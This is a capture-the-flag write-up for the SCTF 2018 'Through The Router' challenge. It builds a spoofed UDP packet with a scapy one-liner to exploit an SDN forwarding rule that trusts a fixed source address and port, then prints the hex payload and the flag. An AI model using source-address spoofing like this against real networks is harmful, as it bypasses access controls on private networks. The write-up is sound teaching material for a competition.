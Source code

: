# Through The Router

We need to craft a packet that satisfies:

- It is a UDP packet
- It arrives at 10.0.0.1:22136.
- Its body is a 6-byte string 'secret'.

As we can control the IP header, we can easily spoof the source address. According to the SDN [rules](https://s3.ap-northeast-2.amazonaws.com/sctf2018-qual-binaries/Rules.png_8e49760cf79defa973b4e7199e50e0f062a49a15), only UDP packets from `10.1.7.8/32` with source port equals to `5555` are forwarded to the FLOOD port without restrictions on packet destination IP address and destination port, so we will abuse this rule to build our packet. It can be done easily with `scapy`:

```python
Python 2.7.15rc1 (default, Apr 15 2018, 21:51:34) 
[GCC 7.3.0] on linux2
Type "help", "copyright", "credits" or "license" for more information.
>>> from scapy.all import *
>>> packet = IP(dst="10.0.0.1", src="10.1.7.8")/UDP(sport=5555, dport=22136)/"secret"
>>> str(packet).encode('hex')
'450000220001000040115fc10a0107080a00000115b35678000e3c51736563726574'
```

We can submit our resulting payload and get the flag: `SCTF{Sp00f_7h3_p4ck3t_70_dr1ll_pr1v4t3_n37w0rk}`.